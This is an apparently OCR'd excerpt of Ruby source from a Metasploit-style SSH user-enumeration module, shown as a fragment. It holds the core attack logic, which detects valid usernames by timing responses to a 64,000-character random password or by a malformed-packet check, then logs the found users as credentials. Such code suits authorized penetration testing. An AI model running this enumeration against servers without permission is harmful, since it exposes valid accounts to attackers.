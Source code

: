 ```bash
    end

    opts.merge!(verbose: :debug) if datastore['SSH_DEBUG']

    start_time = Time.new

    begin
      ssh = Timeout.timeout(datastore['SSH_TIMEOUT']) do
        Net::SSH.start(ip, user, opts)
      end
    rescue Rex::ConnectionError
      return :connection_error
    rescue Timeout::Error
      return :success if technique == :timing_attack
    rescue Net::SSH::AuthenticationFailed
      return :fail if technique == :malformed_packet
    rescue Net::SSH::Exception => e
      vprint_error("#{e.class}: #{e.message}")
    end

    finish_time = Time.new

    case technique
    when :malformed_packet
      return :success if ssh
    when :timing_attack
      return :success if (finish_time - start_time > threshold)
    end

    :fail
  end

  def rand_pass
    Rex::Text.rand_text_english(64_000..65_000)
  end

  def do_report(ip, user, _port)
    service_data = {
      address: ip,
      port: rport,
      service_name: 'ssh',
      protocol: 'tcp',
      workspace_id: myworkspace_id
    }

    credential_data = {
      origin_type: :service,
      module_fullname: fullname,
      username: user
    }.merge(service_data)

    login_data = {
      core: create_credential(credential_data),
      status: Metasploit::Model::Login::Status::UNTRIED
    }.merge(service_data)

    create_credential_login(login_data)
  end

  # Because this isn't using the AuthBrute mixin, we don't have the
  # usual peer method
  def peer(rhost = nil)
    "#{rhost}:#{rport} - SSH -"
```